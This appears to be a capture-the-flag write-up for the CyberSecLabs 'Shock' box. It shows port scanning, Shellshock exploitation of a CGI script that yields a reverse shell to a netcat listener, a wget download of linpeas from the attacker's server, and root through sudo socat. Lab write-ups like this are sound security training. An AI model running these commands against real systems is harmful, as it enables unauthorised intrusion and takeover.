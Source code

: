 ```yaml
---
description: https://www.cyberseclabs.co.uk/labs/info/Shock/
---
```


# Shock

![](<../../../.gitbook/assets/image (658) (1).png>)

## Nmap

```
nmap 172.31.1.3 -p- -A

21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:ee:09:94:d5:4b:4a:d9:3b:95:3a:d6:63:e7:98:6f (RSA)
|   256 b9:f8:52:aa:62:02:af:6c:09:ca:dc:3e:7b:b3:94:b7 (ECDSA)
|_  256 53:5d:98:f7:61:e0:57:df:38:96:f9:be:59:77:6c:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Steak House Shock
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## FTP

Looking at our Nmap results we can start with a check on anonymous login check with FTP.

```
nmap 172.31.1.3 --script=ftp-anon.nse -p 21

PORT   STATE SERVICE
21/tcp open  ftp
```

We get no feedback regarding anonymous login and will require a manual check.

![](<../../../.gitbook/assets/image (659).png>)

As anonymous login for this server is not allowed we can check for exploits on vsFTPd 3.0.3 using searchsploit.

![](<../../../.gitbook/assets/image (660).png>)

I also Google searched and found no current exploits for vsFTPd 3.0.3. We can next take a look at HTTP on port 80 since this is our next best logical attack vector.

## HTTP

![http://172.31.1.3/](<../../../.gitbook/assets/image (661).png>)

I have also started a scan with Nikto on this webpage.

![](<../../../.gitbook/assets/image (662) (1).png>)

## Exploitation

Nikto reports a possible exploit on /cgi-bin/test.cgi to the Shellshock exploit. A brief overview of what is is taken from [www.netsparker.com](https://www.netsparker.com/blog/web-security/cve-2014-6271-shellshock-bash-vulnerability-scan/)

![](<../../../.gitbook/assets/image (664).png>)

### PoC

Searching for HTTP Shellshock PoC's brings us to the following by zalalov on Github.

{% embed url="https://github.com/zalalov/CVE-2014-6271" %}

Download the python script and then set up as per the README:

![](<../../../.gitbook/assets/image (665).png>)

Start a netcat listener on the attacking machine.

```
nc -lvp 4444
```

Then call the Python script with the correct arguments for our machine.

```
python2 shellshock.py 172.31.1.3 /cgi-bin/test.cgi <AttackingIP>/4444
```

![](<../../../.gitbook/assets/image (666).png>)

After a short amount of time we should get a shell back on our listener.

![](<../../../.gitbook/assets/image (667).png>)

From here we can perform an upgrade on the shell we currently have.

```
/usr/bin/script -qc /bin/bash /dev/null
```

## Privilege Escalation

Next I uploaded linpeas.sh in the attempt to look for any easy privilege escalation vectors. I started a Python SimpleHTTPServer on my attacking machine pointing at my Linux enumeration scripts.

```
Python2 -m SimpleHTTPServer 80
```

I then performed `wget` on the target file.

```
wget http://<IP>:<Port>/<File>
```

![](<../../../.gitbook/assets/image (668).png>)

Once completed I executed linpeas.sh and waited for it to complete. Once complete we see we have access to socat using sudo.

![](<../../../.gitbook/assets/image (669) (1).png>)

Looking at socat on [GTFObins](https://gtfobins.github.io/gtfobins/socat/) we see we can call bash with root permissions.

![](<../../../.gitbook/assets/image (670) (1).png>)

![](<../../../.gitbook/assets/image (671).png>)

We are now root on the target machine.

